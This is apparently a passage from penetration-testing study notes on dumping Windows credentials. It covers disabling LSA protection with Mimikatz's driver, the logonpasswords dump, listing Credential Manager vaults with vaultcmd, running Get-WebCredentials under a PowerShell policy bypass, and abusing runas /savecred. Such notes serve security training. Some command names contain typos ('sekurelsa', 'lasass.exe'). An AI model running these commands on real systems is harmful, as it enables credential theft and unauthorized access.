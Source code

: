 ##### Protected LSASS

In 2012, Microsoft implemented an LSA protection, to keep the LSASS secure from the above attacks, to enable it modify the registry RunAsPPL DWORD value in `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` to 1.

`!+` - Import the mimidrv.sys driver, which works on the kernel level to disable LSA protection to Mimikatz.

If it fails with `isFileExist` error, exit Mimikatz and run it again.

`!processprotect /process lasass.exe /remove` - Disable LSA protection from Mimikatz.

Now we can run the `sekurelsa::logonpasswords` command again.

## Windows Credential Manager

##### What is Credentials Manager

There are 4 credentials categories:

- Web credentials, authentication details stored on browsers or other applications.
- Windows credentials, such as NTLM or Kerberos.
- Generic credentials, contain basic authentication details.
- Certificate-based credentials, Authentication details based on certifications.

Authentication details are stored on the users' folder, but they are cached in the memory.

##### Accessing Credential Manager

We can access the Windows Credential Manager trough GUI (Control Panel -> User Accounts -> Credential Manager) or the command prompt.

`vaultcmd /list` - Use the Windows valltcmd utility to list current Windows vault available.

By default Windows has 2 vaults, one for Web and one for Windows machine credentials.

`vaultcmd /listproperties:"<vault name>"` - Check for credentials in a vault.
`vaultcmd /listcreds:"<vault name>"` - List more information about the stored credentials.

##### Credential Dumping

`powershell -ex bypass` - Execute Powershell with bypass policy.
`Import-Module <Get-WebCredentials.ps1 file location>` - Import the Get-WebCredentials.ps1 script.
`Get-WebCredentials` - Get the username and password.

##### RunAs

The runas is a command line built-in tool that allows us to run applications under different users' permissions, the `/savecred` argument allows us to save the credentials of the user in Windows Credential Manager, so next time we execute as the same user, runas will not ask for a password.

`cmdkey` is a tool used to create, delete and display stored Windows credentials.

`cmdkey /list` - Show all stored credentials.
`runas /savecred /user:<user> cmd.exe` - Start CMD as the specified user.

##### Mimikatz
